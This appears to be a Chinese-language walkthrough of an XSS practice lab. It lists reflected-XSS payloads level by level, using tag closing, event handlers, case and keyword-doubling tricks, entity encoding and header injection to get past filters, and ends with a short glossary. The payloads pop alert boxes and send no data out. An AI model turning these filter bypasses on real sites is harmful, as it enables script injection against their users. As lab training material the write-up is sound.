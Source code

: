 ## 1、无过滤

```python
# Payload
?test=<script>alert(1)</script>
```



## 2、反射型

```python
# 考点
闭合标签">
```

```python
# Payload
"><script>alert(1)</script>
```



## 3、反射型

```python
# 考点
过滤<>
```

```python
# Payload
'onfocus=javascript:alert(1)>
```



## 4、反射型

```python
# 考点
过滤<>
```

```python
# Payload
"onmouseover=script:alert(1)//
```



## 5、反射型

```python
# 考点
过滤<> on
```

```python
# Payload
"><a href=javascript:alert(1)>aaa</a>//
```



## 6、反射型

```python
# 考点
过滤<> on href
```

```python
# Payload
"><a HrEf=javascript:alert(1)>aaa</a>//
```



## 7、反射型

```python
# 考点
过滤<> on javascript
```

```python
# Payload
"oonnfocus=scscriptript:alert(1)//
```



## 8、反射型

```python
# 考点
过滤：script、on、src、data、href、"
```

```python
# Payload
编码前：javascript:alert(1)
编码后：&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
```



## 9、反射型

```python
# 考点
过滤：script、on、src、data、href、"
检测：是否存在http://
```

```python
# Payload
编码前：javascript:alert(1)//http://www.baidu.com
编码后：&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;//http://www.baidu.com
```



## 10、反射型

```python
# 考点
input文本框隐藏
```

```python
# Payload
?keyword=<script>alert(%27xss%27)</script>&t_link="%20type="text"&t_history="%20type="text"&t_sort="%20type="text"%20onfocus="alert(1)
```



## 11、反射型

```php
# 考点
input文本框隐藏
Referer头XSS
```

```php
# Payload
Referer: " type="text" onclick='javascript:alert(1)'>//
```



## 12、反射型

```php
# 考点
input文本框隐藏
User-Agent头XSS
```

```php
# Payload
User-Agent: " type="text" onclick='javascript'>//
```



## 13、反射型

```php
# 考点
input文本框隐藏
Cookie头XSS
```

```php
# Payload
Cookie: " type="text" onclick='javascript'>//
```



## 15、反射型

```php
# 考点
nginclude
```

```php
# Payload
?src='level1.php?name=<img src=1 onerror=alert(1)>'
```



## 16、反射型

```php
# 考点
过滤：" / 空格 script 
```

```php
# Payload
?keyword=<img%0Asrc=ss%0Aonerror=alert(1)>
```



## 17、反射型

```php
# 考点
<embed>
```

```php
# Payload
onmouseover=alert(1)
```



## 18、反射型

```php
# 考点
<embed>
```

```php
# Payload
onmouseover=alert(1)
```



## N、知识点

### 1、onfocus

```python
# 解释
事件在对象获得焦点时发生，即点击当前页面的输入框就可以完成弹窗。常用于<input><select><a>
```

### 2、htmlspecialchars()函数

```python
# 解释
把预定义的字符转换为HTML实体
```

```python
# 预定义字符
& => &amp;
" => &quot;
' => '
< => $lt;
> => &gt;
```

### 3、nginclude

```php
# 解释
用于包含外部的HTML文件，包含的内容作为指定元素的子节点
```

```php
# 语法
<element ng-include="filename" onload="" autoscroll=""></element>
filename：文件名，可以使用表达式返回一个文件名
onload：可选，文件载入后执行的表达式
autoscroll：可选，包含的部分是否在指定视图上可滚动
```

### 4、embed

```php
# 解释
<embed>标签是HTML5中的新标签，定义了一个容器，用来嵌入外部应用或互动程序（插件）
```

```php
# 语法
<embed type="" src="" width="" height="">
```

```php
# 实例
# 1、插入图片
<embed type="image/jpg" src="https://static.runoob.com/images/runoob-logo.png" width="260" height="30">
# 2、插入HTML页面
<embed type="text/html" src="snippet.html" width="500" height="200">
# 3、插入视频
<embed type="video/webm" src="video.mp4" width="400" height="300">
```

